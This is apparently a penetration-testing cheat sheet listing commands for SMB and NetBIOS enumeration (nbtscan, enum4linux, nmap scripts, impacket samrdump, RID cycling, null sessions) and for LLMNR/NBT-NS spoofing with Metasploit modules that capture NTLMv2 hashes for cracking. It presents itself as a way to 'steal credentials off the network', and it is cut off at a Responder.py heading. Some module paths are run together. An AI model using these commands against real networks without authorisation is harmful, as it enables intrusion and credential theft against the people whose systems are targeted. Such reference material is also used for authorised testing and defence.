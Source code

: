 Also see, nbtscan cheat sheet (right hand menu).

| Command | Description |
| --- | --- |
| nbtscan 192.168.1.0/24 | Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain |
| enum4linux -a target-ip | Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing |

##### **Fingerprint SMB Version**

smbclient -L //192.168.1.100

##### **Find open SMB Shares**

nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24

##### **Enumerate SMB Users**

nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254
python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
RID Cycling:

ridenum.py 192.168.XXX.XXX 500 50000 dict.txt
Metasploit module for RID cycling:

use auxiliary/scanner/smb/smb_lookupsid

##### **Manual Null session testing:**

Windows:

net use \\TARGET\IPC$ "" /u:""
Linux:

smbclient -L //192.168.99.131

##### **NBTScan unixwiz**

Install on Kali rolling:

apt-get install nbtscan-unixwiz nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan

### LLMNR / NBT-NS Spoofing

Steal credentials off the network.

##### **Metasploit LLMNR / NetBIOS requests**

Spoof / poison LLMNR / NetBIOS requests:

auxiliary/spoof/llmnr/llmnr_responseauxiliary/spoof/nbns/nbns_response
Capture the hashes:

auxiliary/server/capture/smbauxiliary/server/capture/http_ntlm
You’ll end up with NTLMv2 hash, use john or hashcat to crack it.

#### **Responder.py**
